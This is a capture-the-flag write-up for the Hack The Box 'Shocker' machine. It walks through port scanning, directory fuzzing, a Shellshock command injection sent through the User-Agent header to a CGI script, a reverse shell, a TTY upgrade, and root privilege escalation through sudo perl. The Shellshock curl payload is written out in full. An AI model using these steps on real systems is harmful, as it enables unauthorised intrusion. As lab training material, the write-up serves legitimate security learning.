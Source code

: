 ```yaml
---
title: Shocker Writeup(Easy)
published: true
---
```


![machine logo](/assets/shocker/logo.png)

# [](#header-2)Recognition

First of all we do a scan with nmap:

```bash
sudo nmap -sS -p- --open 10.129.50.136 -n -Pn -v
```

The nmap command reported the following ports:
*   Port 80
*   Port 2222

We do a second, more advanced scan:

```bash
sudo nmap -sCV -p80,2222 10.129.50.136
```

The scan reports the following information:

![nmap scan](/assets/shocker/nmapScan.png)

We can see that the **ssh** version is vulnerable to **user enumeration(CVE-2016-6210)** and there is a **web service** running with Apache.

For the moment we are going to start with the web server.

![whatweb command](/assets/shocker/whatweb.png)

The **whatweb** command doesn't give us much information so let's visit the website.

![website](/assets/shocker/website.png)

In the website there is only one image, but after using gobuster to search other directories we found the **cgi-bin** directory.

![gobuster cgi-bin](/assets/shocker/cgi-bin.png)

Now we fuzz in this directory for any file with the extension  **cgi, sh, pl, py**.

![gobuster user.sh](/assets/shocker/usersh.png)

After some research I discovered that cgi scripts can be vulnerable to [shellsock](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock) so we try to change the **User-Agent**.

# [](#header-2)Explotation

We use the following command and we can execute the command **id**, so we try to get a reverse shell.

```bash
curl -s -X GET "http://10.129.50.136/cgi-bin/user.sh" -H "User-Agent: () { :; }; echo; /usr/bin/id"
```

We use nc to get a reverse shell:

![reverse shell](/assets/shocker/reverseshell.png)

Now we use the command from [hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys) to get a full tty shell:

```bash
script /dev/null -qc /bin/bash #/dev/null is to not store anything
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

We get the **user flag** from the home directory:

![user flag](/assets/shocker/userflag.png)

# [](#header-2)Privilege Escalation

Using the command **sudo -l** we can see that we can execute perl as **root**.

![sudo -l](/assets/shocker/sudo-l.png)

Using the [gtfobins](https://gtfobins.github.io/gtfobins/perl/#shell) command we can get a shell as **root**.

![privilege escalation](/assets/shocker/privesc.png)

Now that we are root we can see the root flag.

![root flag](/assets/shocker/rootflag.png)
